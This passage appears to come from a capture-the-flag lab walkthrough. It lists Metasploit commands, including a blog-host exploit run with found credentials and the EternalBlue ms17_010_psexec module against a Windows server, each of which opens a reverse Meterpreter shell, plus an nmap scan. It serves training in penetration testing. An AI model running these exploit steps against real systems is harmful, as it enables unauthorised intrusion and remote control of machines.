   ```sh
  set LPORT 5555

  # we can set the creds found earlier for blog
  set USERNAME admin

  set PASSWORD admin123!@#

  set RHOSTS blog.inlanefreight.local

  run
  # the exploit does not work

  # we missed an option 'vhost'

  options

  set VHOST blog.inlanefreight.local

  run
  # now the exploit works
  # we have a meterpreter shell

  sysinfo

  cat /customscripts/flag.txt
  # second flag
  ```

* Now, for host-03, we have not been given much info, so we need to start with a quick scan:

  ```sh
  nmap -sC -sv -Pn 172.16.1.13
  # this shows we have a target Windows Server
  # named 'SHELLS-WINBLUE'
  ```

* Following the theme, we can attempt with the EternalBlue exploit first:

  ```sh
  msfconsole -q

  use exploit/windows/smb/ms17_010_psexec

  options

  set RHOSTS 172.16.1.13

  set LHOST 172.16.1.5

  set LPORT 4446

  run

  # we get a Meterpreter shell

  cat C:/Users/Administrator/Desktop/Skills-flag.txt
  # flag
  ```
